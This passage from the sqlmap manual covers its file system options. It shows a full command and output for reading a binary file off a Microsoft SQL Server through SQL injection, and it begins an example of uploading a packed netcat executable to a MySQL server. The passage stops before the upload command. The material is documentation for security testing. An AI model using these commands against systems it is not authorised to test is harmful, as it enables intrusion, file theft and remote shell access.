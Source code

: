 ### File system access

#### Read a file from the database server's file system

Option: `--file-read`\
It is possible to retrieve the content of files from the underlying file system when the back-end database management system is either MySQL, PostgreSQL or Microsoft SQL Server, and the session user has the needed privileges to abuse database specific functionalities and architectural weaknesses. The file specified can be either a textual or a binary file. sqlmap will handle it properly.\
These techniques are detailed in the white paper [Advanced SQL injection to operating system full control](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857).\
Example against a Microsoft SQL Server 2005 target to retrieve a binary file:\
`$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mssql/iis/get_str2.asp?nam\`\
`e=luther" --file-read "C:/example.exe" -v 1`

`[...]`\
`[hh:mm:49] [INFO] the back-end DBMS is Microsoft SQL Server`\
`web server operating system: Windows 2000`\
`web application technology: ASP.NET, Microsoft IIS 6.0, ASP`\
`back-end DBMS: Microsoft SQL Server 2005`

`[hh:mm:50] [INFO] fetching file: 'C:/example.exe'`\
`[hh:mm:50] [INFO] the SQL query provided returns 3 entries`\
`C:/example.exe file saved to: '/software/sqlmap/output/192.168.136.129/files/`\
`C__example.exe'`\
`[...]`

`$ ls -l output/192.168.136.129/files/C__example.exe`\
`-rw-r--r-- 1 inquis inquis 2560 2011-MM-DD hh:mm output/192.168.136.129/files/C_`\
`_example.exe`

`$ file output/192.168.136.129/files/C__example.exe`\
`output/192.168.136.129/files/C__example.exe: PE32 executable for MS Windows (GUI`\
`) Intel 80386 32-bit`

#### Upload a file to the database server's file system

Options: `--file-write` and `--file-dest`\
It is possible to upload a local file to the database server's file system when the back-end database management system is either MySQL, PostgreSQL or Microsoft SQL Server, and the session user has the needed privileges to abuse database specific functionalities and architectural weaknesses. The file specified can be either a textual or a binary file. sqlmap will handle it properly.\
These techniques are detailed in the white paper [Advanced SQL injection to operating system full control](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857).\
Example against a MySQL target to upload a binary UPX-compressed file:\
`$ file /software/nc.exe.packed`\
`/software/nc.exe.packed: PE32 executable for MS Windows (console) Intel 80386 32`\
`-bit`

`$ ls -l /software/nc.exe.packed`\
`-rwxr-xr-x 1 inquis inquis 31744 2009-MM-DD hh:mm /software/nc.exe.packed`
